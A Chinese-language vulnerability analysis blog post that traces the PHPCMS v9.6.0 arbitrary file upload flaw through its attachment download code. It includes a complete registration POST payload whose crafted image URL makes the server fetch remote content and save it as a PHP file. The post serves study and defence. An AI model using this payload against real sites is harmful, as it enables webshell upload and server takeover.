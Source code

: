 @Author：Y4tacker

@time：2021/02/21 14:23 PM



# PHPCMSV9.6.0任意文件上传漏洞

## 利用点分析

首先先定位到利用点`phpcms/libs/classes/attachment.class.php`中的`download`函数，定位利用的几个关键函数

![](pic/1.png)

首先第一个`new_stripslashes`函数，比较简单也就是对去`stripslashes`函数的简单封装，支持处理数组而已，作用是删除一个反斜杠

接下来的正则匹配则是匹配形如`src="任意字符.ext"`没有引号也可以，主要是后缀名限定了是`gif|jpg|jpeg|bmp|png`，`$matches[3]`为匹配到的网址也就是src/href=后面的链接，然后有个`fillurl`进行处理，主要是对url进行一些简单的规范化处理，去除#之后的内容等等以及添加http前缀等，可以自行阅读函数实现

接下来看看`fileext`函数，作用是取得后缀名并返回

![](pic/2.png)

之后`getname`函数会把这个后缀作为参数传入，返回一个可爆破的文件名

![](pic/3.png)

然后执行`$upload_func($file, $newfile)`从这个类的`__construct()`方法当中不难得出是copy函数

那么如果我们构造`src=http://kk.com/1.txt?.php#.jpg`，jpg后缀通过了正则，之后经过`fillurl`则变为`http://kk.com/1.txt?.php`，接下来`fileext`函数中取得后缀是php，这个函数内部用的是`strrchr`(查找字符串在另一个字符串中最后一次出现的位置，并返回从该位置到字符串结尾的所有字符)，接下来再经过getname就会返回一个php后缀的文件，里面的内容则是`http://kk.com/1.txt`当中的内容，

有了构造思路后我们就可以取看哪里调用了这个函数，我没找到好用的，之后根据payload的调用发现在`caches/caches_model/caches_data/member_input.class.php`下有一个`editor`方法它恰好调用了，那么如何调用editor？？在这里我陷入了困境，不过至少我们已经分析出了最后的利用流程，现在老老实实去正向跟着payload调试学习吧

## 根据payload调试分析

post数据

```php
网址
http://kk.com/index.php?m=member&c=index&a=register&siteid=1&XDEBUG_SESSION_START=17518
数据包
siteid=1&modelid=11&username=bb2454&password=123456&email=gyar2217@qq.com&info[content]=<img src=http://kk.com/1.txt?.php#.jpg>&dosubmit=1&protocol=
```

在register函数当中，前面是一些配置的获取，我们直接看下关键函数

![](pic/4.png)

我们进入`new member_input()`，是从数据库`v9_model_field`取得一些配置信息，这是关键，而`$modelid`的值是11关乎到我们后面是否能调用editor方法

![](pic/5.png)

之后我们进入`member_input->get`方法，它会调用editor方法

![](pic/6.png)

之后就进入了我们第一个情况中说明的`download`方法，从而执行了任意文件的下载



来填个坑，上面说的是从数据库里面获取的，我发现并不是，他是从`caches\caches_model\caches_data`目录下读取的，我被网上误导了似乎，这波草率了

![](pic/7.png)

测试了下果然是这样的，因此`$this->fields`的值就是从这个文件当中读取的

![](pic/8.png)

既然有获取那就有生成，经过调试发现生成是在后台管理员登陆以后进行的，分析完毕